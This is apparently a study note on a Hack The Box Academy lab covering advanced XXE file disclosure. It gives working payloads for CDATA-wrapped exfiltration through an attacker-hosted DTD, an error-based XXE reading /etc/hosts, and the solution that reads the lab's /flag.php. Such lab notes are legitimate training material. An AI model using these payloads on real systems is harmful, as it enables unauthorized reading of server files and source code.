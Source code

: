 ```yaml
---
description: >-
  Some file formats may not be readable through basic XXE, while in other cases,
  the web application may not output any input values in some instances
---
```


# Advanced File Disclosure

## Advanced Exfiltration with CDATA

As discussed in [local-file-disclosure.md](local-file-disclosure.md "mention") we can use PHP filters to encode PHP source files to not break XML format.

For other Web Application we can use CDATA tag to extract data for any web application backend. Using this tag (`<![CDATA[ FILE_CONTENT ]]>`) the XML parser will think that it is raw data and contain any type of data

Steps:

1. define `begin` internal entity with `<![CDATA[`
2. define `end` internal entity with `]]>`
3. place external entitiy file in between

```xml
<!DOCTYPE email [
  <!ENTITY begin "<![CDATA[">
  <!ENTITY file SYSTEM "file:///var/www/html/submitDetails.php">
  <!ENTITY end "]]>">
  <!ENTITY joined "&begin;&file;&end;">
]>
```

<mark style="color:red;">**This will not work since XML prevents joining internal and external entities**</mark>

if we reference `XML Parameter Entities (starts with %)` from an external source (e.g., our own server), then all of them would be considered as external and can be joined

```xml
<!ENTITY joined "%begin;%file;%end;">
```

**Attack machine**

```bash
echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd
python3 -m http.server 8000
```

**Request body**

```xml
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA["> <!-- prepend the beginning of the CDATA tag -->
  <!ENTITY % file SYSTEM "file:///var/www/html/submitDetails.php"> <!-- reference external file -->
  <!ENTITY % end "]]>"> <!-- append the end of the CDATA tag -->
  <!ENTITY % xxe SYSTEM "http://OUR_IP:8000/xxe.dtd"> <!-- reference our external DTD -->
  %xxe;
]>
```

<figure><img src="https://academy.hackthebox.com/storage/modules/134/web_attacks_xxe_php_cdata.jpg" alt=""><figcaption><p>view info without encode to base64</p></figcaption></figure>

## Error Based XXE

`Semi blind XXE` -> web application might not write any output, so we cannot control any of the XML input entities to write its content

We can use runtime errors (PHP errors) or exception to display the info.

<figure><img src="https://academy.hackthebox.com/storage/modules/134/web_attacks_xxe_cause_error.jpg" alt=""><figcaption><p>Send malformed XML</p></figcaption></figure>

we can delete any of the closing tags, change one of them, so it does not close (e.g. `<roo>` instead of `<root>`), or just reference a non-existing entity

The web app displayed errorand revealed web server directory.&#x20;

To exploit we host DTD that contains

```xml
<!ENTITY % file SYSTEM "file:///etc/hosts">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
```

payload defines the `file` parameter entity and then joins it with an entity that does not exist.

the web application would throw an error saying that this entity does not exist, along with our joined `%file;` as part of the error

**call our external DTD script, and then reference the `error` entity**

```xml
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %error;
]>
```

<figure><img src="https://academy.hackthebox.com/storage/modules/134/web_attacks_xxe_exfil_error_2.jpg" alt=""><figcaption><p>got the contents in error</p></figcaption></figure>

**this method is not as reliabl**e as the previous method for reading source files, as **it may have length limitations**, and certain **special characters may still break it**.

## Assessment

Use either method from this section to read the flag at '/flag.php'. (You may use the CDATA method at '/index.php', or the error-based method at '/error').

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA[">
  <!ENTITY % file SYSTEM "file:///flag.php">
  <!ENTITY % end "]]>">
  <!ENTITY % xxe SYSTEM "http://10.10.14.5:8000/xxe.dtd">
  %xxe;
]>
<root>
<name></name>
<tel></tel>
<email>&joined;</email>
<message></message>
</root>
```

<figure><img src="../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

